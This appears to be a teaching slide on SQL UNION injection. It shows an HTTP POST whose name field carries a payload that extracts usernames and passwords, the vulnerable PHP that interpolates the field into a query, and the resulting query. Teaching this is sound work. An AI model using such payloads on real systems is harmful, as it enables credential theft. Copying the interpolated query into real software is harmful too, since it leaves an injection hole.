

# Anatomy of a UNION Injection

1 User Submission
POST /getUserInfo.php HTTP/1.1
Host: www.api.example.com

name=1’+UNION+SELECT+user,pass+FROM+users;--+&email=j@doe.com

2 PHP Code
// $name contains “1’ UNION SELECT user,pass FROM users;-- ”
$name = $_POST[“name”];
$query = “SELECT first, last FROM users WHERE name=‘$name’;”;

3 After Substitution
$query =  “SELECT first, last FROM users WHERE name=‘’
	   UNION SELECT user,pass FROM users;-- “;

This selects first and last name, but also user and pass!